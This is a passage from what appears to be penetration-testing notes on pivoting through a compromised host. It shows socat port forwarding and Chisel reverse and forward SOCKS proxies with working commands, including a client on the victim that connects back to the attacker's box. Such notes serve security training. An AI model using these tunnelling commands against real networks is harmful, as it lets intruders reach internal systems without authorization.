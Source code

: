 ```python
./socat tcp:172.10.0.20:8001 tcp:172.16.0.10:80,fork &
```

Access to the target (`172.16.0.10:80`) can be made by accessing `127.0.0.1:8000` on the attacker's box.

### Chisel
---
Easily set up a **tunnelled proxy** or **port forward** through a compromised box, **regardless of whether SSH access is available** or not.

**NOTE:** Find Chisel's Github repo [here](https://github.com/jpillora/chisel)

#### Reverse SOCKS Proxy with Chisel

- Start a reverse proxy listener on port `1337` on the attacker's box:

```python
./chisel server -p 1337 --reverse &
```

- From the compromised host, connect back to the attacker at `172.16.0.20:1337`

```python
./chisel client 172.16.0.20:1337 R:socks &
```

**NOTE:** The actual proxy will be opened on `127.0.0.1:1080`, so data will be sent by using port `1080`.

#### Forward SOCKS Proxy with Chisel

- Open port `8080` for a **socks5** proxy on the compromised host.

```python
./chisel server -p 8080 --socks5
```

- Connect to a chisel server running on `172.16.0.10:8080` of the target host and open a socks proxy on port `1337` on the attacker's box.

```python
./chisel client 172.16.0.10:8080 1337:socks
```

**NOTE:** If using `proxychains`, set the proxy address as `socks5` in the config file. Example for a **Reverse Proxy**:

```c
# proxychains configuration file
socks5  127.0.0.1 1080
```

#### Remote Port Forwarding with Chisel

- Start a listener on port `1337` on the attacker's box:

```python
./chisel server -p 1337 --reverse &
```
